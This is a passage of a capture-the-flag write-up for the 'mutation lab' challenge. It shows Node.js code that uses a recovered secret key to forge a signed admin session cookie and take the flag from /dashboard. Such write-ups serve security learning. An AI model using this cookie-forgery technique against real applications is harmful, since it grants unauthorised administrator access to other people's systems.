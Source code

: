 I used this code to generate our session with admin username and sign the cookie with the secret key.

```javascript
var cookieSession = require('cookie-session')
var express = require('express')

var app = express()

app.set('trust proxy', 1) // trust first proxy

app.use(cookieSession({
  name: 'session',
  keys: ['5921719c3037662e94250307ec5ed1db']
}))

app.get('/', function (req, res, next) {
  // Update views
  req.session.username = 'admin';

  res.send('test');

})

app.listen(3000)
```

We now have the admin session and session.sig:

![](https://github.com/Gelzki/Cyber-Apocalypse-2022-Write-Up/blob/main/attachments/Pasted%20image%2020220517170904.png)

Paste the value on mutation lab and access /dashboard to get the flag.

![](https://github.com/Gelzki/Cyber-Apocalypse-2022-Write-Up/blob/main/attachments/Pasted%20image%2020220517171044.png)
